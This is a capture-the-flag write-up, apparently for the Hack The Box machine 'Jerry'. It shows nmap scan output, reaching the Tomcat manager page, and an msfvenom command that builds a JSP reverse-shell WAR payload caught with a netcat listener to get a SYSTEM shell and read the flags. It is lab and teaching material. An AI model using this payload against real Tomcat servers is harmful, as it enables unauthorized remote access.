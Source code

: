 # Jerry
Some windows shit is pretty irritating, but if we're being honest, this should happen pretty damn fast.

## Recon
Just the usual, lets nmap this bitch:
```bash
nmap -A --version-light -vvv -oA jerry 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up, received echo-reply ttl 127 (0.15s latency).
Scanned at 2018-07-08 14:21:44 EDT for 29s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Site doesn't have a title.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.70%E=4%D=7/8%OT=8080%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=5B425655%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=10D%TI=I%II=I%SS=S%TS=7)
OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M54DNW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.056 days (since Sun Jul  8 13:01:06 2018)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   116.01 ms 10.10.14.1
2   197.20 ms 10.10.10.95

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul  8 14:22:13 2018 -- 1 IP address (1 host up) scanned in 29.12 seconds
```
Alright, if we google around we'll find that the admin page is located at ```/manager/html``` navigate that way, read the 403 page and *hacker voice* we're in

## "Exploitation"
With access to tomcat, minimum effort solution is a reverse shell using a war file, conveniantly available in msfvenom:
```
msfvenom -p java/jsp_shell LHOST=someip LPORTT=6969 -f war > shell.war
Payload size: 1107 bytes
Final size of war file: 1107 bytes
```
nc -nvlp or metasploit reverse shell handler to catch that boi, upload  it and things are looking up.

## Post "exploitation"
Once we catch the reverse shell, we happen to get a system shell, so just head to the usual flag spot and it's game over. Also, I use dir a lot, fight me. Also also, the doubld quotes are key, learn from our mistakes.

```                                                                                                                          
C:\apache-tomcat-7.0.88>cd ..\Users\Administrator\Desktop\flags
                                                             
C:\Users\Administrator\Desktop\flags>dir                     
dir                                                          
 Volume in drive C has no label.                             
 Volume Serial Number is FC2B-E489                           
                                                             
 Directory of C:\Users\Administrator\Desktop\flags           
                                                             
06/19/2018  07:09 AM    <DIR>          .                     
06/19/2018  07:09 AM    <DIR>          ..                    
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes                
               2 Dir(s)  27,660,591,104 bytes free           
                                                             
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"                              
user.txt                                                     
notarealflaghash                             
                                                             
root.txt                                                     
justfollowtheextremelysimpleinstructions                             
```
Noice,good job, team the best team.
